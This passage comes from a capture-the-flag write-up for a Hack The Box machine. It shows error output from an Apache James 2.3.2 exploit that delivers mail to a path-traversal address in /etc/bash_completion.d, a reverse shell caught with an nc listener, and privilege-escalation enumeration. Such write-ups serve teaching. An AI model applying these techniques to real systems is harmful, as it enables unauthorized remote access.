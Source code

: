     -rbash: $'remoteAddrq~\002L': command not found
    -rbash: remoteHostq~LsendertLorg/apache/mailet/MailAddress: No such file or directory
    -rbash: $'\221\222\204m\307{\244\002\003I\003posL\004hostq~\002L\004userq~\002xp': command not found
    -rbash: $'L\005stateq~\002xpsr\035org.apache.mailet.MailAddress': command not found
    -rbash: 0xdf@10.10.14.47>
    Message-ID: <4054205.0.1588213770563.JavaMail.root@solidstate>
    MIME-Version: 1.0
    Content-Type: text/plain; charset=us-ascii
    Content-Transfer-Encoding: 7bit
    Delivered-To: ../../../../../../../../etc/bash_completion.d@localhost
    Received: from 10.10.14.47 ([10.10.14.47])
              by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 148
              for <../../../../../../../../etc/bash_completion.d@localhost>;
              Wed, 29 Apr 2020 22:29:30 -0400 (EDT)
    Date: Wed, 29 Apr 2020 22:29:30 -0400 (EDT)
    FROM: 0xdf@10.10.14.47
    : No such file or directory
    

You can see in the error that it’s trying to run everything from
`0xdf@10.10.14.47` to the `FROM: 0xdf@10.10.14.47` as one command, due to the
added `'`.

At my `nc` listener, I got a shell:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )              
    Ncat: Listening on :::443                                 
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.51.          
    Ncat: Connection from 10.10.10.51:49590.
    python -c 'import pty;pty.spawn("bash")'
    ${debian_chroot:+($debian_chroot)}mindy@solidstate:~$
    

I’ll look at improving the experience for mindy in Beyond Root.

## Priv: mindy –> root

### Enumeration

In just looking around the file system, I usually check `/opt` and `/srv`,
expecting to find both empty on most HTB machines. So finding a world-writable
root-owned Python script in `/opt` caught my eye:

    
    
    ${debian_chroot:+($debian_chroot)}mindy@solidstate:/$ ls -l /opt/
    total 8
    drwxr-xr-x 11 root root 4096 Aug 22  2017 james-2.3.2
    -rwxrwxrwx  1 root root  105 Aug 22  2017 tmp.py
    
